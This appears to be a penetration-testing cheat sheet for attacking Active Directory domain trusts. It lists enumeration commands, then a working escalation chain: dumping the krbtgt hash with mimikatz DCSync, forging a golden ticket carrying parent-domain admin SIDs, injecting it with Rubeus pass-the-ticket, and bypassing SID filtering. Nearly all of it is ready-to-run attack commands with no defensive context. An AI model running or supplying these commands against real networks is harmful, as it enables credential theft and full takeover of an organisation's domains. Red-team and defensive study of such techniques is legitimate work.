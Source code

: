 * cmd
``` a
nltest /trusted_domains
```
* powershell
``` powershell
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
```
* powerview
``` powershell
Get-DomainTrust -API or Get-DomainTrust -NET
Get-DomainTrustMapping
Get-DomainForeignGroupMember -Domain [target domain]
```

## Bidirectional Parent/Child -- sids
``` a
PowerShell Get-DomainGroup -Identity 'Domain Admins' -Domain [parent domain] | select ObjectSid
Shell whoami /user
DCSync krbtgt or lsadump::dcsync /user:krbtgt /domain:[child]
kerberos::golden /user:Administrator /domain:[child domain] /sid:[child domain] /sids:[parenet domain]-512 or 519 /krbtgt:[child domain] /ticket:test.kirbi
[System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\Users\John\Desktop\test.kirb")) 
Rubeus createnetonly /program:C:\Windows\System32\cmd.exe
Rubeus ptt /luid:0x21d8e17 /ticket:[...snip...]
ImpersonateProcess 2768
Rubeus triage

```

* powerview
``` powershell
Get-DomainSID -Domain [domain]
```
## SID filtering
``` powershell
Get-DomainTrust -Domain [target domain]
netdom trust [From] /d:[To] /enablesidhistory:yes  (This will add TREAT_AS_EXTERNAL to TrustAttributes)
```
* Need to find a custom group in domain local security groups and change sids to this group
``` powershell
Get-DomainGroupMember -Identity "Administrators" -Domain [target domain]
```
